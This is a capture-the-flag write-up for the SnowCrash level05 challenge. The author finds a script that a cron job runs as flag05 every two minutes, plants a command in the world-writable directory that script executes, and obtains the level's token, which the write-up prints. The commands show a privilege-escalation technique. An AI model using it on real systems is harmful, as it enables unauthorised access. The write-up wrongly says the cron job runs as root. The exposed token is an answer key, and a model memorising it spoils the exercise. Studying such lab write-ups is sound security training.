 Level05 instructions

```
level05@SnowCrash:~$ ll
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout*
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc*
-r-x------  1 level05 level05  675 Apr  3  2012 .profile*
level05@SnowCrash:~$ ls
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
this is clearly can be exploits if we add some scripts on this directory `/opt/openarenaserver/` but we don't have permission to run it as flag05
```
level05@SnowCrash:~$ echo whoami > /opt/openarenaserver/test
level05@SnowCrash:~$ bash /usr/sbin/openarenaserver
+ whoami
level05
```
Let's go deeper 
```
level05@SnowCrash:~$ find / -name 'level05' 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$ ll /var/mail/level05
-rw-r--r--+ 1 root mail 58 Jan 11 15:30 /var/mail/level05
```
Now we get it, this is a cron run with root prev every 2 min
```
echo 'getflag >> /tmp/l05.txt' > /opt/openarenaserver/l05.sh
level05@SnowCrash:~$ ll /opt/openarenaserver/l05.sh
ls: cannot access /opt/openarenaserver/l05.sh: No such file or directory #deleted after 2 min
level05@SnowCrash:~$ cat /tmp/l05.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ su level06
Password:


level06@SnowCrash:~$
```
